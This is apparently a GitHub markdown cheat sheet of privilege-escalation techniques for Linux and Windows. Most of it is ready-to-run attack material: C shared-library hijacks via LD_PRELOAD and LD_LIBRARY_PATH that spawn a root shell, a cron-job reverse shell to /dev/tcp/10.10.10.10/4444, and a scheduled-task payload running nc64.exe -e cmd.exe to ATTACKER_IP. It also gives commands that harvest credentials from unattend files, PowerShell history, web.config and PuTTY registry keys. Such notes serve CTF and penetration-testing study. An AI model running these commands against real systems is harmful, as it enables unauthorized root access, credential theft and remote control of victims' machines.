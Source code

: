 # PrivEscalation
***
* ### Better listener shell experience
```python -c 'import pty;pty.spawn("/bin/bash")'``` 


* ### List sudo capability of the current user
```sudo -l```


* ### Find interesting binaries that can exploit shell
```find / -perm /6000 2>/dev/null | grep '/bin'```


* ### https://gtfobins.github.io/ followed the interesting tools that can exploit 


* ### env_keep exploit when ```sudo -l``` and ```ddl <thetargetedprogram>``` to find its libraries

> #### - Take advantage of LD_PRELOAD
a. compile the library.
```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/preload.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

b. sudo program with the LD_PRELOAD
```sudo LD_PRELOAD=/tmp/preload.so program-name-here```

> #### - Take advantage of LD_LIBRARY_PATH
a. find the libraries used by the program
```ldd /usr/sbin/<program> #for example```

b. compile the library with one of the libraries name
```gcc -o /tmp/<libraryname> -shared -fPIC /home/user/library_path.c```
```#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

c. sudo program with the LD_LIBRARY_PATH
```sudo LD_LIBRARY_PATH=/tmp <programname>```


* ### Cron job if it's writable on /etc/crontab file (can use any available type of reverse shell http://revshells.com/ ):
```#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```


* ### Automated tools
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker

* # Windows Commands

* ### unattended files found in
```
 C:\Unattend.xml
 C:\Windows\Panther\Unattend.xml
 C:\Windows\Panther\Unattend\Unattend.xml
 C:\Windows\system32\sysprep.inf
 C:\Windows\system32\sysprep\sysprep.xml	
```
* ### Powershell history 
```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

* ### Find saved credentials and use runas to open cmd of those creds
To list the credentials available for this user ```cmdkey /list``` 
To use that user's cmd ```runas /savecred /user:<USER> cmd.exe```

*### Find web.config that belong to IIS in those location
```
 C:\inetpub\wwwroot\web.config
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```
and to find database connections in them use 
```
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

* ### Retrieve creds from PuTTy
```reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s```
	
	
* ### Scheduled tasks privesc
```
schtasks /query /tn vulntask /fo list /v <= see the executer account and the file executed
icacls c:\tasks\schtask.bat <== check the file executed permessions if writable
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat <== add payload to the executed file
schtasks /run /tn vulntask <== run the task to get reverse shell with executer's account
```

* ### 
# Reverse Shell
***
* ### https://www.revshells.com/

* ### MonkeyPenTest

* ### Start webserver using python ```sudo python3 -m http.server 80``` then download files into victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"


